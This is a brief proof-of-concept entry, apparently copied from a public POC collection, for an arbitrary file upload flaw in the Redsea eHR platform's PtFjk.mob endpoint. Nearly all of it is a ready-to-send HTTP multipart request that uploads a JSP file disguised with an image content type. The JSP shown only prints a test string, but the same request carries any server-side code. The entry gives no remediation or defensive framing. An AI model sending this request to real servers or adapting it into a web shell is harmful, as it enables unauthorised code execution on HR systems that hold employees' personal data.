 # honhaiyun_eHR_PtFjk.mob_fileupload

from： https://github.com/wy876/POC/blob/main/%E7%BA%A2%E6%B5%B7%E4%BA%91eHR-PtFjk.mob%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.5.13 @2 

```
POST /RedseaPlatform/PtFjk.mob?method=upload HTTP/1.1
Host: 
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryt7WbDl1tXogoZys4

------WebKitFormBoundaryt7WbDl1tXogoZys4
Content-Disposition: form-data; name="fj_file"; filename="11.jsp"
Content-Type:image/jpeg

<% out.print("hello,eHR");%>
------WebKitFormBoundaryt7WbDl1tXogoZys4--
```
